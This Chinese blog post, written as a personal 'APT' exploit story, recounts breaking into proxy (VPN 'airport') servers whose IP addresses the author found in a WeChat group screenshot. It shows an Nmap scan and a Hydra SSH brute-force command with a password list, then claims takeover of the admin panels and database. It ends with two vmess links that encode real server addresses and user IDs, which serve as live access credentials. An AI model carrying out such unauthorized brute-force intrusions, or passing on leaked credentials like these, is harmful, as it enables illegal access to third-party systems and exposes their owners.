 ```yaml
---
title: 记一次非法搭建机场获取权限
author: APT - 0x44LL
date: 2021-12-25
category: Jekyll
layout: post
---
```


## 天网恢恢 疏而不漏
![smiley](/public/DocsPics/20220207155219.png)

根据wx群聊看到有人发机场截图并暴露了IP地址
![smiley](/public/DocsPics/20220207155341.jpg)
于是全部记录了下来，依次排列好；

```
168.63.xxx.106
20.187.xxx.80
20.205.xxx.204
20.212.xxx.178
```

快速Nmap扫描了一波；
![smiley](/public/DocsPics/20220207155424.png)

看到22端口开放
Hydrawin版本加载字典进行端口爆破，当然要使用上我亲自开过光的字典和飞升过的动态IP了

```
hydra.exe -l root -P 22 开光字典.txt -vV -o ssh.log -e ns 127.0.0.1 ssh
```

![smiley](/public/DocsPics/20220207155510.png)

**于是就这样进入了服务器...**


数据库
面板账户唯一登入密码
![smiley](/public/DocsPics/20220207155528.png)

所有的管理后台面板全部拿到权限
![smiley](/public/DocsPics/20220207155602.png)
![smiley](/public/DocsPics/20220207155713.png)

```
vmess://ewogICJ2IjogIjIiLAogICJwcyI6ICJBWi1GMlMtSEstODAtV1MiLAogICJhZGQiOiAiMTY4LjYzLjIxMi4xMDYiLAogICJwb3J0IjogODAsCiAgImlkIjogIjRjOTA4ZTgxLWM2YzYtNGNiNy1lZDQ5LWRjODhlN2NkZjkxNCIsCiAgImFpZCI6IDAsCiAgIm5ldCI6ICJ3cyIsCiAgInR5cGUiOiAibm9uZSIsCiAgImhvc3QiOiAiZ3cuYWxpY2RuLmNvbSIsCiAgInBhdGgiOiAiIiwKICAidGxzIjogIm5vbmUiCn0=
```

```
vmess://ewogICJ2IjogIjIiLAogICJwcyI6ICJBWi1CMVMtSEstODAtV1MiLAogICJhZGQiOiAiMjAuMjA1LjExOC4yMDQiLAogICJwb3J0IjogODAsCiAgImlkIjogIjhjYzgwOWQzLTk1YzAtNDg4Yi1jZmUwLTk4ZWVlZDM4MzYzYiIsCiAgImFpZCI6IDAsCiAgIm5ldCI6ICJ3cyIsCiAgInR5cGUiOiAibm9uZSIsCiAgImhvc3QiOiAiZ3cuYWxpY2RuLmNvbSIsCiAgInBhdGgiOiAiIiwKICAidGxzIjogIm5vbmUiCn0=
```
![smiley](/public/DocsPics/20220207155731.png)
很遗憾的是这些服务器都没什么东西；

查询了一下是刚开不久的；
